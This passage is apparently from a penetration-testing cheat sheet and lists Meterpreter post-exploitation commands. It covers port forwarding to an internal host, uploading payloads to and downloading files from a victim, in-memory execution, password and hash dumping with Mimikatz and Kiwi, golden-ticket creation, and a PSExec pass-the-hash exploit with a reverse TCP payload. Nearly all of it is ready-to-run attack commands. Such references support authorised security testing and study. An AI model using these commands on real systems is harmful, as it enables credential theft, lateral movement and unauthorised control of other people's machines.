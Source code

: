 portfwd Mode

```shell script {.wrap}
meterpreter> portfwd add -l 7777 -r 172.17.0.2 -p 3006
```

### Upload / Download

file transfer

```shell script {.wrap}
upload /path/in/hdd/payload.exe exploit.exe
download /path/in/victim
```

### Execute from Memory

Overwrite the memory space in this process with the program we want to execute.

```shell script {.wrap}
meterpreter> execute -H -i -c -m -d calc.exe -f /root/wce.exe -a  -w
```

### Mimikatz Mode

Metasploit offers Mimikatz and Kiwi extensions to perform various types of credential-oriented operations, such as dumping passwords and hashes, dumping passwords in memory, generating golden tickets, and much more.

Mimikatz

```shell script {.wrap}
meterpreter> load mimikatz
meterpreter> mimikatz_command -f version
meterpreter> mimikatz_command -f samdump::hashes
meterpreter> mimikatz_command -f sekurlsa::wdigest
meterpreter> mimikatz_command -f sekurlsa::searchPasswords
meterpreter> mimikatz_command -f sekurlsa::logonPasswords full
```

Kiwi

```shell script {.wrap}
meterpreter> load kiwi
meterpreter> creds_all
meterpreter> golden_ticket_create -d <domainname> -k <nthashof krbtgt> -s <SID without le RID> -u <user_for_the_ticket> -t <location_to_store_tck>
```

### PSExec

Pass the Hash

```shell script {.wrap}
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
msf exploit(psexec) > exploit
SMBDomain             WORKGROUP                             no        The Windows domain to use for authentication
SMBPass               598ddce...b51404ee:2d20d...1d93985bf  no        The password for the specified username
SMBUser               0x584a                                no        The username to authenticate as
```
